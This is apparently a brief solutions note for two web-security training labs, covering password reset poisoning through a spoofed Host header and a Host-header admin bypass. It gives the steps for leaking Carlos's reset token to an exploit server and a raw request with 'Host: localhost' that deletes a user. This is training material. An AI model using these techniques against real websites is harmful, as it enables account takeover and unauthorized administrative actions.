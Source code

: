 ```
Lab: Basic password reset poisoning

APPRENTICE

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server. 
```

1. Change Host header to you exploit server id when you ask for reset your password
2. Change the username who asking this ~wiener~ carlos
3. See the log of the exploit server
4. Use this token for reset Carlos's pswd

---

```
Lab: Host header authentication bypass

APPRENTICE

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete the user carlos. 
```

GET /admin/delete?username=carlos HTTP/2
Host: localhost

---